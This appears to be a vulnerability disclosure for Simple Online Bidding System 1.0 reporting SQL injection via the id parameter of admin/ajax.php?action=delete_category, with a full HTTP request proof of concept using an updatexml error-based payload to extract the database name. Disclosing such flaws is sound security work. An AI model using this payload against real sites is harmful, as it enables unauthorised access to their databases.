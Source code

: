 ## Affected version: 
Simple Online Bidding System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability File:
/simple-online-bidding-system/admin/ajax.php?action=delete_category

## Description:
Simple Online Bidding System 1.0 is vulnerable to unrestricted SQL injection attacks via /simple-online-bidding-system/admin/ajax.php?action=delete_category, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /simple-online-bidding-system/admin/ajax.php?action=delete_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 59
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/admin/index.php?page=categories
Cookie: PHPSESSID=44palbgphqda0ug0pvlpmao3tp
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

id=1%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/b2bcd1e3-6c44-4782-b0be-8ef4fc8176ba)


## code analysis:

The id parameter in admin_class.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/dfe9f651-8c70-40b4-8142-3232ccb2c2d5)


